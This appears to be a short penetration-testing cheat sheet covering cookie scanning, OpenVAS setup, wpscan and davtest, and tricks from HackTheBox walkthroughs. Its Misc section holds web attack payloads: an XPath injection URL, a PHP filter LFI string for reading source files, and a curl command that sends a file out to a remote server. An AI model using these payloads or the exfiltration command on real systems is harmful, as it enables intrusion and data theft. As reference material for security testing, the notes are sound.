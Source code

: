 ## Cookies

* [https://cookiepedia.co.uk/](https://cookiepedia.co.uk/)
  * "Largest Database of Pre-Categorized Cookies"
  * Scans a website for cookie usage

## OpenVAS Vulnerability Scanner

```bash
#Install openvas
apt update
apt install openvas

#Run the setup script
openvas-setup

#Check that it is running on port 939
netstat -tulpn

#Login by using a browser and navigating to: https://127.0.0.1:939
```

## Misc

### XPATH Dump

```text
https://example.com/accounts.php?user=test"]/../*%00&xpath_debug=1
```

### LFI - Retrieve HTML/PHP files without executing

```text
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

whatismybrowser.com - research User-Agent strings

Injecting IPs when `.` is disallowed: convert dotted-decimal format to decimal value - [`ip2dh`](https://github.com/4ndr34z/MyScripts/blob/master/ip2dh.py)

Use `curl` to exfiltrate file on remote server \(from attackers box\): `curl -d @/<file> <remote server>`

in order to proxy tools that have no proxy option: create burn proxy 127.0.0.1:80 [Ippsec:HacktheBox - Granny & Grandpa](https://www.youtube.com/watch?v=ZfPVGJGkORQ)

vulnerability testing for webdav \(or other file upload vulns!\): `davtest`

bypassing filetype filters with http MOVE command to rename allowed filetype [Ippsec:HacktheBox - Granny & Grandpa](https://www.youtube.com/watch?v=ZfPVGJGkORQ)

Wordpress enumeration: `wpscan -u <url> [--disable-tls-checks]`

pull Google cached webpage if regular site not loading: `cache:https://<somewebsite>`
